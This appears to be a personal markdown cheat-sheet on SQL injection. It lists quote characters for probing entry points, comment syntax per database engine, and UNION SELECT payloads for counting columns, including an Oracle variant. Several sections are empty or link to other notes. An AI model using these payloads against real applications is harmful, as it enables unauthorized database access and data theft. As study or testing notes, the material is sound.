 # SQLi

## Check for SQLi
**Determine entry point:**
```
'
"
`
')
")
`)
'))
"))
`))
```
**Add comments after quote injection:**
```sql
MySQL
-- comment [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
PostgreSQL
--comment
/*comment*/
MSQL
--comment
/*comment*/
Oracle
--comment
SQLite
--comment
/*comment*/
HQL
HQL does not support comments
```

## Union Based SQL Injection
> If you can see the output of your SQL query then this is the best way to exploit it

**Determine number of columns:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Determine number of columns for Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
**Get databases**:




### [[Blind SQLi]]
If you cant see the output of your SQL query then this is the way to go ╰(*°▽°*)╯


[[Blind SQLi]]
**If it does not seem to return specific results depending on your injection...**
- ...and it does not seem to be modifying the response of the application in any way, check out [[Blind SQLi]]. 
- ...and your query triggers a boolean response from the application (i.e. 200/500, or a generic success/fail message in the page), check out [[Conditional SQLi]]

**What other options are there?**
Out-of-band SQLi
	I don't have access to burp collaborator so this is out of the question with the resources I have at the moment
- 